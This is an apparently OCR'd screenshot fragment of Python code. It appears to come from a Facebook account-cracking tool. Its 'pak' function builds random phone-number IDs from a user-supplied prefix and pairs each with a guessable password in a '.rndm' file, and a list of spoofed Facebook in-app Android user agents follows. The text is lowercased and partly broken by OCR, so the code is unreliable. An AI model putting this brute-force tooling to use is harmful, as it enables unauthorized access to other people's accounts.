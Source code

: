         with tred(max_workers=30) as king___xd:
            tl = str(len(fo))
            tk = first+last
            l.append('gm')
            file()

       
        
####@-----paknumber-----@####


def pak():
	user=[]
	code = input(f'{oo("!")}put code : ')
	try:
		limit = int(input(f'{oo("?")}put limit :  '))
	except valueerror:
		limit = 5000
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		user.append(nmp)
	for psx in user:
		ids = code+psx
		open('.rndm','a').write(ids+'|'+psx+' '+ids+'\n')
	andom()



####@-----useragent----@####
"""
mozilla/5.0 (linux; android 11; infinix x695 build/rp1a.200720.011; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/90.0.4430.210 mobile safari/537.36 [fb_iab/orca-android;fbav/394.0.0.15.72;]
mozilla/5.0 (linux; android 13; v2169 build/tp1a.220624.014; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.117 mobile safari/537.36 [fb_iab/orca-android;fbav/394.0.0.15.72;]
mozilla/5.0 (linux; android 13; sm-m127f build/tp1a.220624.014; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.117 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 11; itel s661lp build/rp1a.201005.001; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.118 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 7.1.1; n9560 build/nmf26f; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/55.0.2883.91 mobile safari/537.36 [fb_iab/orca-android;fbav/394.0.0.15.72;]
mozilla/5.0 (linux; android 12; 22041219c build/sp1a.210812.016; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.117 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 12; tecno kh6 build/sp1a.210812.016; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/99.0.4844.88 mobile safari/537.36 [fb_iab/orca-android;fbav/391.2.0.20.404;]
mozilla/5.0 (linux; android 11; mp02 build/rp1a.201005.001; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.118 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 12; cph2457 build/skq1.220303.001; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.118 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 11; t781spp build/rkq1.210614.002; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/92.0.4515.131 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 10; z555 build/qp1a.190711.020; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/107.0.5304.141 mobile safari/537.36 [fb_iab/orca-android;fbav/388.0.0.23.106;]
mozilla/5.0 (linux; android 8.0.0; cubot_p20 build/o00623; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/109.0.5414.118 mobile safari/537.36 [fb_iab/orca-android;fbav/393.0.0.18.92;]
mozilla/5.0 (linux; android 12; sm-m515f build/sp1a.210812.016; wv) applewebkit/537.36 (khtml, like gecko) version/4.0 chrome/96.0.4664.104 mobile safari/537.36 [fb_iab/orca-android;fbav/390.2.0.29.103;]